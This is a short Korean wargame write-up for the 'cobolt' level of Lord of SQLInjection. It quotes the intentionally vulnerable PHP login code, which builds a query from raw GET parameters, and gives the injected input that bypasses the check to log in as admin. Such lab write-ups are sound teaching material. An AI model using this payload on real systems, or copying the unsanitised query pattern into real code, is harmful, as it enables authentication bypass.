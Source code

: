 ```yaml
---
layout: post
title: "[2] Lord Of Sqlinjection"
description: ""
date: 2015-12-08
tags: []
comments: true
share: true
---
```



9번 라인 조건에 $result['id'] 의 값이 admin으로 고정되어있다.

쿼리문('id='1' or '1=1' and id='admin'#' and pw=md5('')')준비하고 요청한다.
    
    <?php
      include "../config.php"; 
      login_chk();
      dbconnect();
      if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
      $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
      echo "query : {$query}"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      if($result['id'] == 'admin') solve("cobolt");
      elseif($result['id']) echo "Hello {$result['id']}You are not admin :("; 
      highlight_file(__FILE__); 
    ?>

  

![](/assets/images/posts/414/234CD1475666A52B378792.PNG)

  

